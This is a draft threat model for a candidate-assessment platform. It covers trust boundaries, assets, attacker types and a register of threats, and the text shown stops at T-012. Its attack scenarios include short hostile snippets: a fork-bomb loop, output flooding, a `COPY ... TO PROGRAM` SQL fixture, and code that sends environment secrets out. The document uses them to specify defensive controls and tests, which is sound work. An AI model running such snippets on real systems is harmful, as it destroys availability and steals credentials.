

# Threat model

**Status:** draft
**Owner:** _unassigned_
**Last updated:** 2026-09-21
**Companion docs:** [`02-HLD.md`](02-HLD.md), [`03-API-spec.md`](03-API-spec.md), [`04-ADRs.md`](04-ADRs.md), [`hiring_platform_schema.sql`](hiring_platform_schema.sql), [`05-licensing-and-compliance.md`](05-licensing-and-compliance.md), [`06-testing-strategy.md`](06-testing-strategy.md), [`11-data-retention-and-dpia.md`](11-data-retention-and-dpia.md), [`12-observability-and-runbooks.md`](12-observability-and-runbooks.md), [`13-environments-and-release.md`](13-environments-and-release.md), [`../project/TRACKER.md`](../project/TRACKER.md), [`../project/RISKS.md`](../project/RISKS.md)

---

## 1. Scope and methodology

### 1.1 Why this system needs its own threat model

Most web applications share one useful property: the user and the operator want the same thing. A banking customer does not want their balance altered. A CRM user does not want their pipeline corrupted. The adversary is external.

This system does not have that property. For a meaningful fraction of the people using it, the system's correct behaviour is against their immediate interest. A candidate who wants a job wants a higher score than they earned. A candidate's paid proxy wants to be indistinguishable from the candidate. A competitor wants the question bank. The user is, some of the time, the adversary — and unlike an external attacker, that adversary is invited in, authenticated, handed a token, and given a browser pointed at our code.

That changes what "secure" means. It is not enough that the API resists unauthorised access. The API must resist *authorised* access used for an unintended purpose, which is a much harder target and is the reason this document exists separately from a generic security checklist.

### 1.2 Method

Two passes, because one is not sufficient.

**Pass 1 — STRIDE per component.** Each component from [`02-HLD.md`](02-HLD.md) §3 (core API, execution service, collaboration service, grading workers, storage) and each trust boundary in §2 below is walked through Spoofing, Tampering, Repudiation, Information disclosure, Denial of service, and Elevation of privilege. STRIDE is used here as a completeness checklist, not as a taxonomy worth arguing about — an entry's category matters far less than whether the entry exists at all.

**Pass 2 — assessment integrity (class `AI*`).** STRIDE names none of the following well: a candidate who obtains the answers before the exam, a candidate who is not the person sitting the exam, a candidate who re-rolls the randomised draw until the questions are easy, or an organisation that maps the whole bank by farming exposure across many throwaway attempts. These are not spoofing in the credential sense, not tampering in the data sense, and not information disclosure in the confidentiality sense — they are *assessment validity* failures. They are the threats that make the product worthless while every STRIDE control passes. They get their own category.

> The category label in the register is the STRIDE letter where one fits, and `AI` (assessment integrity) where it does not. `AI` here means assessment integrity and has nothing to do with machine learning; per [ADR-011](04-ADRs.md#adr-011--defer-ai-features) there is no AI anywhere in the scoring or decision path of this system.

### 1.3 A note on tense

**No code exists in this repository yet.** Every control described as an "existing control" is a control the design already commits to, with a citation showing where the commitment is written down — an ADR, an HLD section, an API-spec rule, or a schema constraint. None of them are shipped and none of them are verified. The "action" on each entry is what turns the commitment into something running and tested. Read the register as a specification of required controls, not as an audit of deployed ones.

### 1.4 Rating scales

**Likelihood** — how often we expect an attempt, not how often we expect success.

| Rating | Means |
|---|---|
| High | Will be attempted routinely. Assume it happens in the first exam window with real candidates. |
| Medium | Plausible against this system by someone who spends an afternoon on it, or requires a specific opening we might leave. |
| Low | Requires a capability, position or budget that the actors in §4 are not expected to bring. |

**Impact** — the worst realistic outcome, assuming the attack succeeds once.

| Rating | Means |
|---|---|
| High | Question bank disclosed, cross-organisation data exposed, scores no longer defensible, or a personal-data breach that is notifiable. |
| Medium | One candidate or one attempt compromised; recoverable, but a dispute we would lose. |
| Low | Nuisance, degraded service, or an event we can absorb and explain. |

**Residual risk** — what remains after the existing control, before the action lands. Any entry at **high** residual risk needs a named owner and a date before the milestone it belongs to closes; `TBD - owner: engineering lead, decide by 2026-09-21` applies to every owner field in this document until the team is staffed.

### 1.5 Out of frame for this pass

Physical security of the hosting facility, the security of a customer's own corporate IdP, the security of a candidate's personal device, and denial-of-service at the network layer below the reverse proxy. These are real, they are simply handled by the hosting choice and reverse-proxy configuration described in [`13-environments-and-release.md`](13-environments-and-release.md) rather than by application design. §8 lists what is out of scope *and deliberately accepted*, which is a different and more important list.

---

## 2. Trust boundaries

A trust boundary is a place where data or control crosses from one level of trust to another, and where a check must therefore exist. Nine of them matter here.

| Id | Boundary | What crosses it | The check that must exist |
|---|---|---|---|
| TB-1 | Candidate browser → API | Attempt token, answers, autosave, code, proctor events | The attempt token authorises exactly one attempt and nothing else; every request is re-authorised against the attempt's current state, never against what the client asserts. |
| TB-2 | Candidate-submitted code → sandbox | Arbitrary source code in a supported language | The code is treated as hostile input to a process that holds nothing worth stealing. Limits are kernel-enforced, not language-enforced. |
| TB-3 | Sandbox → everything else | Nothing, by design | The exec node has no credentials, no network egress and no route to the API, database or object store. This boundary is enforced by network policy, not by the sandbox's own correctness. |
| TB-4 | Staff session → organisation data | Session cookie plus an explicit permission | Every staff endpoint requires a session *and* a named permission key ([`03-API-spec.md`](03-API-spec.md) §1); the permission set comes from the database, never from the request. |
| TB-5 | Organisation → organisation | Nothing, ever | PostgreSQL row-level security with `app.current_org` set per connection checkout ([ADR-010](04-ADRs.md#adr-010--row-level-security-for-tenant-isolation)). A missing `WHERE` clause returns zero rows rather than another tenant's data. |
| TB-6 | Worker → execution tier | Language, version, files, stdin, args, limits | The adapter contract carries no question id, no expected output and no organisation identity ([`02-HLD.md`](02-HLD.md) §3.2). Comparison happens in the worker, after the sandbox has exited. |
| TB-7 | Background job → database | Elevated database role (`DATABASE_JOB_ROLE`) | The job role bypasses RLS by necessity and must therefore scope every query explicitly and write an audit trail. This is the weakest point of the tenant isolation story and is treated as such. |
| TB-8 | API → webhook consumer | Event payloads containing candidate data and scores | The destination URL is attacker-chosen (a customer admin supplies it). Egress must be filtered, payloads signed, deliveries logged, and secrets never echoed back. |
| TB-9 | Object store → browser | Proctor media, session recordings, export files | Access only through short-TTL pre-signed URLs derived from an authorised request; no stable public path, no bucket-level read ([`02-HLD.md`](02-HLD.md) §3.5, §7). |

Two properties of this layout are worth stating explicitly because they carry most of the security argument.

**The execution tier is the only component we expect to lose.** Piston and Judge0 have both had documented escapes ([`02-HLD.md`](02-HLD.md) §7). The design response is not "make the sandbox unbreakable" — it is "make breaking the sandbox worthless". An attacker who achieves root on an exec node finds no credentials, no database route, no test-case expectations and no other candidate's code, and the node is recycled underneath them.

**The candidate app is a separate bundle for a reason.** `apps/candidate` ships no staff code, no bank access and no correct-answer flags. A serialisation bug in the staff console cannot leak into the candidate bundle, because the candidate bundle never contained the code that would render it.

---

## 3. Asset inventory

Ranked by what an attacker actually wants, which is not the same as ranked by what a compliance questionnaire asks about.

| Rank | Asset | Where it lives | Why it is wanted | Loss of confidentiality | Loss of integrity | Loss of availability |
|---|---|---|---|---|---|---|
| 1 | **Question bank content and answer keys** — `question_versions.prompt_md`, `mcq_options.is_correct`, `short_answer_keys.pattern`, `coding_specs.solution_code` | Postgres | It is the product. It is also directly resaleable: leaked question sets are a commodity market. | **Catastrophic and irreversible.** | Serious — corrupted keys mis-score every future attempt. | Recoverable from backup. |
| 2 | **Hidden test cases** — `test_cases` where `is_sample = false` | Postgres, and briefly in worker memory | Knowing the hidden cases turns a coding question into a lookup. | Catastrophic per question. | Serious. | Recoverable. |
| 3 | **Another organisation's data** — everything under a different `org_id` | Postgres, object store | A competitor's candidate pipeline, scores and bank. One incident ends the product's commercial life. | Catastrophic. | Catastrophic. | Low. |
| 4 | **A score change** — `answers.final_score`, `attempts.score_pct`, `attempts.passed` | Postgres | It is the thing the candidate is actually here for. | Low. | **Catastrophic** — an unfalsifiable score makes every hiring decision indefensible. | Medium. |
| 5 | **Other candidates' attempt data** — answers, submissions, scores | Postgres | Copy a strong candidate's answers; or embarrass a competitor's applicant. | High. | High. | Low. |
| 6 | **Credentials and tokens** — session cookies, attempt tokens, invitation tokens, WS tickets, webhook secrets, `SESSION_SECRET`, `TOKEN_PEPPER`, database and S3 keys | Valkey, Postgres (hashed), runtime environment | A credential is a shortcut to every asset above it. | High to catastrophic depending on which. | High. | Medium. |
| 7 | **Candidate PII** — `candidates.email`, `full_name`, `phone`, plus `proctor_media` (webcam stills, ID photos, screen clips) | Postgres, object store | Regulatory value to us, nuisance value to an attacker, real harm value to the candidate. Biometric-adjacent media raises the stakes sharply. | High, and notifiable. | Medium. | Medium. |
| 8 | **Audit log** — `audit_log` | Postgres | Not wanted for itself; wanted *deleted*, by anyone who has just tampered with an asset above. | Medium. | **High** — an editable audit log is worse than none, because it is believed. | High. |
| 9 | **Service availability during an exam window** | Everything | A denial-of-service during a campus drive is a credible extortion or sabotage target. | — | — | High, and time-boxed: the damage lands in a two-hour window and cannot be undone afterwards. |

### The crown jewel is defined by disclosure, not by loss

The question bank is ranked first because its value is destroyed by **disclosure**, not by loss. A deleted bank restores from backup in an hour. A bank posted to a Telegram channel is permanently worthless for assessment purposes — every question in it must be retired, and the psychometric history attached to those versions ([`question_stats`](hiring_platform_schema.sql)) goes with them. There is no restore, no rotation and no revocation for a leaked question. That asymmetry drives several design choices that would otherwise look paranoid:

- Reference solutions and `is_correct` flags are stripped in the serialisation layer with a test asserting they never appear in candidate-facing responses ([`02-HLD.md`](02-HLD.md) §7).
- Test-case expectations never enter the sandbox, so an escaped sandbox learns nothing ([`02-HLD.md`](02-HLD.md) §3.2).
- Exposure is counted per question *version*, via the `attempt_questions (question_version_id)` index, so that over-exposed questions can be retired before they leak rather than after (FR-4 in [`01-PRD.md`](01-PRD.md)).
- The candidate app is a separate bundle so that bank-facing code is never shipped to a candidate device at all.

Every one of those is cheap. None of them would be justified by a "loss of the bank" analysis. They are justified by the fact that disclosure is one-way.

---

## 4. Actor model

Eight actors. Capability is what they can do; motivation is what they will actually spend effort on. An actor with high capability and no motivation is not a priority; an actor with low capability and relentless motivation — the opportunistic candidate — accounts for most real-world events.

| Actor | Access they start with | Capability | Motivation | What they will actually try |
|---|---|---|---|---|
| **A1 — Opportunistic candidate** | A valid invitation token and a browser | Low. Consumer devices, browser devtools, search engines, a second phone, a friend on a call. No custom tooling. | High but shallow: pass this one assessment with the least effort. | Searching the question text online, a second monitor, tab-switching to an AI chat, asking a friend, retrying the link to get easier questions, pasting from a prepared document. |
| **A2 — Determined candidate** | The same | Medium. Comfortable with HTTP, will read the JavaScript bundle, will intercept and replay requests, will write a script. | High and patient: this job matters enough to spend a weekend on. | Reading the candidate bundle for leaked fields, replaying autosave requests, manipulating the local clock, brute-forcing an invitation token, probing for IDOR on attempt and answer ids, timing hidden test cases. |
| **A3 — Paid proxy / sitter** | Whatever the candidate gives them, willingly | Medium to high. This is a business; they do it daily and have tooling — remote desktop, a second machine, a virtual camera. | Commercial. Paid per sitting, reputation depends on not being caught. | Taking the invitation link directly, remote-controlling the candidate's machine, joining the live round as the candidate, feeding answers over a side channel. The candidate is a willing accomplice, so every device-side control is compromised from the start. |
| **A4 — Malicious staff user** | A valid staff session with legitimate permissions | Medium. Insider knowledge of the product and access to the bank by job function. | Varied: favour a referred candidate, exfiltrate the bank before leaving for a competitor, cover a mistake. | Editing a custom role to grant themselves `attempt.grade` or `question.read`, bulk-exporting the bank, overriding a score and hoping nobody reads the audit log, voiding an attempt to force a retake. |
| **A5 — Compromised staff session** | A stolen cookie, a phished password, or a hijacked browser | Whatever A4 has, plus no accountability and no self-restraint about noise. | External — monetise access, or act on behalf of a competitor. | Everything A4 would try, but fast and loud: bulk export, mass data pull, webhook redirection to an attacker-controlled endpoint. |
| **A6 — External attacker (unauthenticated)** | The public internet and whatever we expose | Medium. Automated scanners, credential stuffing, known-CVE exploitation, opportunistic SSRF probing. | Opportunistic and untargeted: data to sell, infrastructure to abuse. | Scanning for injection and IDOR, brute-forcing invitation and room codes, probing the webhook configuration endpoint for SSRF, exploiting an unpatched dependency. |
| **A7 — Curious insider** | Legitimate access, no malice | Low. Uses the product as built. | Curiosity: looking up a friend's, a colleague's, or their own family member's results. | Searching candidates by name, opening proctor media out of process, reading another team's pipeline. **Not an attack, but the same data exposure**, and the control — audit and least privilege — is identical. |
| **A8 — Competitor buying leaked content** | Money | Low technically, unlimited commercially. Buys what A1–A5 exfiltrate; recruits sitters and insiders. | Commercial: reduce our bank's value to zero, or seed their own. | Paying for dumps, farming exposure through many disposable candidate identities, scraping through the import/export surface if they become a customer. |

Two observations that shape the register.

**A3 makes device-side controls advisory, not protective.** Every browser-based proctoring signal — fullscreen exit, tab blur, paste, devtools — assumes the person at the keyboard is not cooperating with the attacker. When the candidate *is* the attacker's client, the device is hostile territory and no signal from it can be trusted as proof. This is precisely why [ADR-007](04-ADRs.md#adr-007--proctoring-produces-signals-never-decisions) forbids acting on those signals automatically: the signals are evidence for a human, and that is the only honest thing they can be.

**A7 is the most likely actor to touch PII in year one.** Not an attacker, not a breach — a colleague looking someone up. The control is not a firewall, it is `audit_log` plus a permission model that does not grant `report.export` by default.

---

## 5. Threat register

Forty entries. The index table is for scanning; the detail blocks below carry the scenario, the control citation and the action.

**About task references.** Existing tasks are cited where one already covers the work. The forty actions this document proposes are now rows in [`../project/TRACKER.md`](../project/TRACKER.md) as `H-136` to `H-175`, and are marked `(proposed)` here to mean *proposed by this document* — not *absent from the backlog*.

They were renumbered on 2026-09-17. This document was written when the tracker ended at `H-109` and allocated `H-110` onwards for itself; the tracker then grew to `H-135` on other work, and all twenty-six of those references silently came to name unrelated, mostly finished tasks — so the mitigation plan pointed at the wrong rows. Ids are allocated in the tracker and nowhere else; a document that mints one is a collision waiting for the backlog to grow into it.

### 5.1 Index

| Id | Component | Category | Threat | L | I | Residual |
|---|---|---|---|---|---|---|
| T-001 | Execution tier | E | Sandbox escape to the exec node, and persistence across runs | Med | Med | Low |
| T-002 | Execution tier | E | Lateral movement from an exec node into the app or data tier | Low | High | Low |
| T-003 | Execution tier | I | Network egress from submitted code | High | High | Low |
| T-004 | Execution tier | D | Resource exhaustion — fork bomb, memory bomb, CPU spin | High | Med | Low |
| T-005 | Execution tier | D | Output flooding to exhaust disk, queue or database | High | Med | Low |
| T-006 | Grading worker | AI | Timing side channel leaking hidden test-case content | Med | High | Med |
| T-007 | API / grading | I | Error and diff messages leaking expected output | Med | High | Low |
| T-008 | Execution tier | I | Submission reads the filesystem looking for test data | Med | High | Low |
| T-009 | Grading worker | E | Author-supplied checker code and SQL fixtures execute with worker trust | Med | High | Med |
| T-010 | API / candidate auth | S | Attempt-token theft and replay | Med | Med | Med |
| T-011 | API / candidate auth | S | Invitation-token brute force, room-code guessing, candidate enumeration | Med | High | Low |
| T-012 | Candidate app | AI | Invitation token handed to a paid proxy sitter | High | High | **High** |
| T-013 | Collab service | S | WebSocket ticket reuse or sharing | Med | Med | Low |
| T-014 | API / staff auth | S | Session fixation | Low | High | Low |
| T-015 | API / staff auth | S | OIDC assertion accepted without full validation | Low | High | Low |
| T-016 | API / staff auth | S | Compromised staff session used for bulk extraction | Med | High | Med |
| T-017 | Staff console | T | CSRF on staff mutations | Med | High | Low |
| T-018 | API | I/E | IDOR across attempt ids, answer ids and submission ids | High | High | Low |
| T-019 | Worker → DB | E | RLS bypass through the background job's elevated role | Med | High | **High** |
| T-020 | API | T | SQL injection through search and filter parameters | Med | High | Low |
| T-021 | API / admin | E | Staff user escalates by editing a custom role's permissions | Med | High | Med |
| T-022 | API | T | Mass assignment on `PATCH` endpoints | Med | High | Med |
| T-023 | API serialisation | I | Over-permissive serialisation leaks `is_correct` or `solution_code` | Med | **Critical** | Med |
| T-024 | API / SSE | I | Hidden-case content leaks through submission progress frames | Med | High | Med |
| T-025 | Candidate app | AI | Client clock manipulation to extend the attempt | High | Med | Low |
| T-026 | API / autosave | T | Autosave replay overwrites a later answer | Med | Med | Med |
| T-027 | API / attempts | AI | Submitting after the deadline | High | Med | Low |
| T-028 | API / attempts | AI | Re-rolling the randomised question draw | High | High | Low |
| T-029 | Question bank | AI | Exposure farming to map the bank | Med | **Critical** | **High** |
| T-030 | Candidate device | AI | Screen capture and content exfiltration by the candidate | High | **Critical** | **High** |
| T-031 | API / bulk | I | Scraping the bank through the import/export endpoints | Med | **Critical** | Med |
| T-032 | Webhooks | E | SSRF through a customer-supplied webhook URL | Med | High | Med |
| T-033 | Webhooks | I | Webhook secret leakage and signature bypass | Med | High | Med |
| T-034 | Webhooks | T | Replay of webhook deliveries | Med | Med | Low |
| T-035 | Object store | I | Pre-signed URL leakage and over-long TTL | Med | High | Med |
| T-036 | Object store | I | Proctor media accessed outside the review process | Med | High | Med |
| T-037 | Supply chain | T | Compromise of a dependency or build step | Low | **Critical** | Med |
| T-038 | Question content | T/E | XSS through markdown in a question prompt | Med | High | Low |
| T-039 | Reporting | T | CSV injection in exports | Med | Med | Low |
| T-040 | API / grading | R | Score tampering by staff, and dispute repudiation | Low | High | Low |
| T-041 | API → DB | T/I | Cross-tenant references that RLS does not check: foreign keys, and writable global rows | Med | High | Low |
| T-042 | API / staff auth | S | Staff account enumeration through login and password reset | Med | Med | Low |
| T-043 | Local stack → DB | I | The container bootstrap builds tables the migrations' isolation model does not cover | Med | High | Low |

Category key: **S** spoofing · **T** tampering · **R** repudiation · **I** information disclosure · **D** denial of service · **E** elevation of privilege · **AI** assessment integrity (§1.2).

### 5.2 Execution tier — TB-2, TB-3, TB-6

**T-001 · Execution tier · E · Sandbox escape to the exec node, and persistence across runs**
*Scenario.* A candidate submits C code exploiting a kernel or container-runtime CVE, breaks out of the Piston jail, and drops a binary in a writable path hoping the next candidate's run — or ours — executes it.
*Likelihood* medium · *Impact* medium · *Residual* low.
*Existing control.* [`02-HLD.md`](02-HLD.md) §7 states the design assumption outright: assume the sandbox will eventually be escaped. Nodes are ephemeral and recycled regularly; [ADR-002](04-ADRs.md#adr-002--piston-over-judge0-for-execution) puts Piston behind a swappable adapter so the isolation technology can change without touching the grading path. `EXEC_MAX_PROCESSES` and the cgroup limits bound what a compromised process can do while it lives.
*Residual reasoning.* Escape is survivable. Persistence is the part that must not work, and that is a property of node lifecycle rather than of Piston.
*Action.* `H-136` (proposed) — exec nodes run from an immutable image with a read-only root filesystem, a per-run tmpfs work directory, and recycling after a bounded number of runs; document the recycle interval in [`infra/README.md`](../infra/README.md).

**T-002 · Execution tier · E · Lateral movement from an exec node into the app or data tier**
*Scenario.* Having escaped the jail, the attacker looks for a database URL in the environment, an instance metadata endpoint, or a route to `api:8080`, and finds all three because the exec node was co-located with everything else in a convenient dev-shaped deployment that shipped.
*Likelihood* low · *Impact* high · *Residual* low.
*Existing control.* **The exec node holding no credentials is the control.** [`02-HLD.md`](02-HLD.md) §7: execution nodes hold no secrets, no database credentials and no cloud IAM roles; §10 puts them in their own node group, never co-located with the API or database. This is the single most important structural decision in the security design, because it converts "sandbox escape" from a breach into an incident report.
*Residual reasoning.* The residual is low *only while the deployment matches the design*. The realistic failure is drift — someone adds `DATABASE_URL` to the exec service for a debugging session, or a compose file grows a shared network.
*Action.* `H-137` (proposed) — an infrastructure test that boots the production-shaped stack and asserts, from inside an exec container, that no domain environment variable is present, that DNS and TCP to the API, database, Valkey and object store all fail, and that no cloud metadata endpoint is reachable. Runs in CI on every change to compose or infra.

**T-003 · Execution tier · I · Network egress from submitted code**
*Scenario.* A candidate's Python submission opens a socket to a server they control and posts the test inputs it was given, the environment, and anything readable — or simply fetches the answer from a helper service and prints it.
*Likelihood* high — this is the first thing anyone tries · *Impact* high · *Residual* low.
*Existing control.* [`02-HLD.md`](02-HLD.md) §3.2 and §7: no network egress, enforced at the network layer on the exec node group, not by the language runtime. `PISTON_URL` is reachable only from the worker tier.
*Residual reasoning.* Low, provided egress is denied by default rather than blocked by rule. A deny-all egress policy with an explicit empty allow list fails closed; a blocklist does not.
*Action.* Covered by `H-137` (proposed); additionally `H-138` (proposed) — a standing regression suite of hostile submissions, one per supported language, that attempts DNS resolution, outbound TCP and outbound HTTP, and is asserted to fail. Feeds [`06-testing-strategy.md`](06-testing-strategy.md).

**T-004 · Execution tier · D · Resource exhaustion — fork bomb, memory bomb, CPU spin**
*Scenario.* `while True: os.fork()` during a campus drive, submitted by fifty candidates who found the same forum post, takes out the exec pool and every queued submission behind it.
*Likelihood* high · *Impact* medium · *Residual* low.
*Existing control.* [`02-HLD.md`](02-HLD.md) §7: resource limits enforced by the kernel via cgroups, not by the application. The canonical environment provides `EXEC_CPU_TIME_MS`, `EXEC_WALL_TIME_MS`, `EXEC_MEMORY_MB` and `EXEC_MAX_PROCESSES` so the limits are configuration, not code. Rate limits cap trial runs at 60 per attempt per hour and graded submissions at 10 per attempt question ([`03-API-spec.md`](03-API-spec.md) §2), bounding the volume one candidate can generate.
*Residual reasoning.* Wall time must be enforced *in addition to* CPU time — a submission that sleeps consumes no CPU and would otherwise hold a slot indefinitely.
*Action.* `H-139` (proposed) — a hostile-submission suite covering fork bombs, allocation bombs, CPU spin, sleep-forever and zip-bomb-style expansion, asserting that each is killed inside the configured wall-time budget and that the exec node returns to service; plus the sandbox-timeout-rate metric and alert from [`02-HLD.md`](02-HLD.md) §8, tracked as `H-079`.

**T-005 · Execution tier · D · Output flooding to exhaust disk, queue or database**
*Scenario.* `print("A" * 1000000)` in a loop. The sandbox honours its limits, but the adapter streams gigabytes back to the worker, which writes it into `submission_results.actual_stdout` and fills the database.
*Likelihood* high · *Impact* medium · *Residual* low.
*Existing control.* `EXEC_MAX_OUTPUT_BYTES` caps output at the sandbox boundary ([`02-HLD.md`](02-HLD.md) §3.2 lists max output size among the enforced limits), and the schema comments on `submission_results.actual_stdout` instruct truncation before storage.
*Residual reasoning.* Two independent caps — one at the sandbox, one at the persistence layer — because a single cap is a single bug away from unbounded.
*Action.* `H-140` (proposed) — enforce `EXEC_MAX_OUTPUT_BYTES` in `packages/exec-adapter` with the truncation marked in the result, and a second hard truncation in `packages/grading` before any row is written; test asserts a 1 GB stdout submission produces a bounded row and a `passed = false` result rather than an error.

**T-006 · Grading worker · AI · Timing side channel leaking hidden test-case content**
*Scenario.* A candidate submits code that branches on input properties and burns measurable time in each branch — sleep 200 ms if the first line parses as an integer above 10^9, sleep 400 ms if the input contains a negative number — then reads `runtime_ms` from the per-case results and reconstructs the hidden inputs across ten submissions.
*Likelihood* medium · *Impact* high · *Residual* medium.
*Existing control.* Partial. [`03-API-spec.md`](03-API-spec.md) §7 restricts hidden-case disclosure to "pass/fail and case label only", which excludes stdin and expected output but does not by itself exclude timing. The 10-submission cap per attempt question bounds the number of measurements.
*Residual reasoning.* Medium and inherent — any oracle that reports per-case results at all leaks something. The goal is to reduce the channel's bandwidth below the point where reconstructing a test input is cheaper than solving the problem.
*Action.* `H-141` (proposed) — for hidden cases, candidate-facing responses expose pass/fail and label only: no `runtime_ms`, no `memory_kb`, no exit code, no ordering information beyond the declared ordinal. Aggregate runtime is reported for the submission as a whole, rounded. The full per-case detail stays in `submission_results` for staff.

**T-007 · API / grading · I · Error and diff messages leaking expected output**
*Scenario.* A candidate's submission fails a hidden case and the response helpfully includes `expected "42\n" but got "41\n"`, because the grading comparator's error string was written for debugging and nobody filtered it on the way out.
*Likelihood* medium · *Impact* high · *Residual* low.
*Existing control.* [`03-API-spec.md`](03-API-spec.md) §7 defines the disclosure table by case type explicitly: sample cases show stdin, expected, actual and stderr; hidden cases show pass/fail and label. Compile errors show the full compiler stderr, which is safe because compilation happens before any test case is supplied.
*Residual reasoning.* The rule is written down and precise; the risk is implementation drift, which is what the assertion test is for.
*Action.* `H-142` (proposed) — the candidate-facing result serialiser is the only path to a candidate, and a contract test asserts that for a submission with a deliberately distinctive hidden expectation (a UUID as expected stdout), that string never appears anywhere in any candidate-visible response body or SSE frame. Extends the serialisation test required by [`02-HLD.md`](02-HLD.md) §7.

**T-008 · Execution tier · I · A submission reads the filesystem looking for test data**
*Scenario.* Instead of solving the problem, the submission walks `/`, `/tmp` and its own working directory, greps for anything resembling expected output, and prints what it finds — a technique that works against every grader that stages test files next to the submission.
*Likelihood* medium · *Impact* high · *Residual* low.
*Existing control.* Structural and decisive: [`02-HLD.md`](02-HLD.md) §3.2 — "The adapter never receives a question ID. It receives code and inputs. Test-case expectations are compared in the grading worker, not in the sandbox." There is nothing on the exec node's filesystem to find, because expectations never travel there. `stdin` for the current case is present by necessity; nothing else is.
*Residual reasoning.* Low, and it stays low only while the comparison stays in the worker. A future "custom checker runs in the sandbox alongside the submission" optimisation would reopen this at high severity — see T-009.
*Action.* `H-143` (proposed) — an adapter-level test asserting the `execute()` payload contains no expected output, no question identifier and no organisation identifier; plus a note in [`04-ADRs.md`](04-ADRs.md) terms if the checker placement is ever revisited.

**T-009 · Grading worker · E · Author-supplied checker code and SQL fixtures execute with worker trust**
*Scenario.* `coding_specs.checker_code` and `coding_specs.fixture_sql` are author-written and run at grading time. A question imported from an external bank, or authored by a compromised staff account, contains a checker that reads the worker's environment and exfiltrates `DATABASE_URL`, or a fixture that runs `COPY ... TO PROGRAM`.
*Likelihood* medium · *Impact* high · *Residual* medium.
*Existing control.* Weak today. `question.publish` is a distinct permission ([`03-API-spec.md`](03-API-spec.md) §4) so a human approves before a version goes live, and published versions are immutable ([ADR-003](04-ADRs.md#adr-003--published-question-versions-are-immutable)) so the reviewed artifact is the executed artifact. Neither prevents a reviewer from approving a checker they did not read closely.
*Residual reasoning.* This is the underrated inverse of the sandbox story: we correctly distrust candidate code and then run *author* code in the trusted tier. Import makes it worse, because imported content has no author we know.
*Action.* `H-144` (proposed) — checker code and SQL fixtures execute inside the same sandbox as candidate submissions, through the same adapter, with the same limits and no egress; the worker supplies inputs and reads a verdict. Import never sets `checker_code` or `fixture_sql` from an external file — those fields are authored in-product only, and the import job rejects rows carrying them. M2 scope, blocks the `custom_checker` grading mode shipping.

### 5.3 Candidate authentication — TB-1, TB-3

**T-010 · API / candidate auth · S · Attempt-token theft and replay**
*Scenario.* The candidate's attempt token is captured — from a shared machine's browser history, a screenshot posted for help, or a proxy on an untrusted network — and replayed by someone else to read or answer the attempt.
*Likelihood* medium · *Impact* medium · *Residual* medium.
*Existing control.* [`03-API-spec.md`](03-API-spec.md) §1: the attempt token is scoped to exactly one attempt and cannot read the question bank, other candidates, or any org resource. It is short-lived and obtained by exchanging an invitation token. The blast radius of a stolen token is one attempt — which is exactly the attempt the thief wants, so scoping bounds the damage without preventing the attack.
*Residual reasoning.* Medium and partly unavoidable: a bearer token in a browser is stealable. Binding it to a fingerprint hurts legitimate candidates who switch networks mid-exam, which is common on campus wifi.
*Action.* `H-145` (proposed) — attempt tokens are short-lived with rolling renewal on heartbeat; every redemption and every renewal writes a `proctor_events` row carrying IP and user-agent so a mid-attempt change of origin is *visible to a reviewer* without being acted on automatically ([ADR-007](04-ADRs.md#adr-007--proctoring-produces-signals-never-decisions)). Concurrent use of one attempt token from two origins raises a severity-2 signal, never a block.

**T-011 · API / candidate auth · S · Invitation-token brute force, room-code guessing, candidate enumeration**
*Scenario.* An attacker scripts `POST /candidate/redeem` against generated tokens to find a live invitation, or iterates `POST /join/{room_code}` to walk into a live interview; a variant probes `POST /candidates` for duplicate-email conflicts to confirm who has applied where.
*Likelihood* medium · *Impact* high · *Residual* low.
*Existing control.* [`02-HLD.md`](02-HLD.md) §7: invitation tokens are high-entropy, hashed at rest, single-purpose and expiring. The schema stores `invitations.token_hash` with a `UNIQUE` constraint and mails the plaintext, which is returned once at creation and never again ([`03-API-spec.md`](03-API-spec.md) §6). Token redemption is rate-limited to 20 per IP per hour ([`03-API-spec.md`](03-API-spec.md) §2). `interview_sessions.room_code` is `UNIQUE` but is described as "short shareable" — short is the problem.
*Residual reasoning.* Low for invitation tokens given the entropy. **Room codes are the weak sibling**: they are short by product design so they can be read aloud, which makes them guessable in a way a 256-bit token is not.
*Action.* `H-146` (proposed) — invitation tokens are 256 bits from a CSPRNG, hashed with `TOKEN_PEPPER`; `POST /join/{room_code}` is rate-limited per IP and per room, sessions accept joins only within a window around `scheduled_at`, and a join still requires the display name to be reconciled by the host before the candidate sees content. Candidate-facing error responses for redeem and join are uniform — `not_found` for expired, revoked, consumed and non-existent alike — so the endpoint is not an oracle.

**T-012 · Candidate app · AI · Invitation token handed to a paid proxy sitter**
*Scenario.* The candidate emails their invitation link to a sitting service, or installs remote-desktop software and lets the sitter drive while the webcam points at the candidate. Nothing is stolen; the legitimate credential is used by an illegitimate person with the credential holder's full cooperation.
*Likelihood* high · *Impact* high · *Residual* **high — accepted for non-proctored rounds, see §8**.
*Existing control.* For proctored rounds (M4): identity capture, Safe Exam Browser, and `proctor_events` of types `multi_face`, `no_face`, `second_screen`. For non-proctored async rounds: essentially none, and honestly so. [ADR-007](04-ADRs.md#adr-007--proctoring-produces-signals-never-decisions) forbids acting on any of these automatically.
*Residual reasoning.* The control that actually works is not technical: a downstream live round against the same skills, run by a human, where a proxy cannot sit. An async score is a filter, not a hiring decision, and the product must never present it as one.
*Action.* `H-147` (proposed) — the results UI labels every non-proctored attempt with its verification level, and the PRD's recommended flow (async screen → live confirmation) is stated in the recruiter-facing copy, not just in the docs. Detection work is in §9; see also §8 for why this residual is accepted rather than engineered away.

